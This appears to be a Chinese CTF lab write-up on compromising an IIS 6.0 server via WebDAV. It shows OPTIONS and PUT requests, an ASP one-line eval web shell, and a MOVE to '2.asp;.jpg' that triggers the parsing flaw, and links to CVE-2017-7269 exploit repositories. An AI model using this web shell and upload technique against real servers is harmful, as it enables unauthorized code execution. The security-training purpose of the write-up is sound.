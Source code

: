 解题方向

通过上传程序脚本，获取 WEB 的权限；
PS：不要过于依赖现成工具！

题目打开长这样：

![][2]

### 思路探寻

先看下`iis`版本，可以用浏览器插件`Wappalyzer`，也可以使用`OPTIONS`请求方法查看：

> HTTP1.0 定义了三种请求方法： GET、POST、HEAD
> HTTP1.1 新增了五种请求方法：OPTIONS、PUT、DELETE、TRACE 、CONNECT

```
curl -X OPTIONS http://xxx.xxx.xxx.xxx:yyy/ -I
```

![][3]

可以看到版本是`6.0`

### burp 手操

我们先来使用手动操作一遍，不建议成为工具党

将`GET`修改为`OPTIONS`查看可执行命令：

![][4]

然后我们`PUT`一个`ASP`一句话上去，文件名随便写比如`2.txt`：

```
<%eval request("soapffz")%>
```

![][5]

返回`201 Created`，创建成功

PS:

这里注意一个问题，不要只把`GET`改为`PUT 2.txt`，后面还有一个斜杠`/`记得删掉

我开始也搞了半天，看解析思路评论区很多老哥说怎么试都不行最后精简为自己手写请求语句和`HOST`才成功

我看了下都是没有删除这个斜杠，所以做题一定要细心啊

然后就可以使用`MOVE`命令把`2.txt`改为`2.asp;.jpg`让解析漏洞解析`asp`

核心语句如下；

```
MOVE /2.txt HTTP/1.1
Host: ip:端口
Destination: /2.asp;.jpg
<%eval request("soapffz")%>
```


[1]: https://www.mozhe.cn/bug/detail/VnRjUTVETHFXWk5URWNjV2VpVWhRQT09bW96aGUmozhe
[2]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200401_143652.png
[3]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200401_150455.png
[4]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_191217.png
[5]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_193839.png
[6]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_194516.png
[7]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_194704.png
[8]: https://nosec.org/home/index
[9]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200401_151949.png
[10]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200401_221600.png
[11]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200401_215805.png
[12]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_210815.png
[13]: https://blog.csdn.net/sudo0m/article/details/85549259
[14]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_212406.png
[15]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_212524.png
[16]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_212621.png
[17]: https://github.com/SecWiki/windows-kernel-exploits
[18]: http://www.admintony.com/CVE-2017-7269.html
[19]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200401_224022.png
[20]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_203113.png
[21]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_203140.png
[22]: https://github.com/admintony/Windows-Exploit/tree/master/IIS6_WebDAV_Scanner
[23]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_210354.png
[24]: https://github.com/zcgonvh/cve-2017-7269
[25]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200401_150621.png
[26]: https://www.lxhsec.com/2019/03/04/middleware/
[27]: https://mp.weixin.qq.com/s/FHb82rhk-63HSU7R_g1Atw
[28]: https://xz.aliyun.com/t/6783
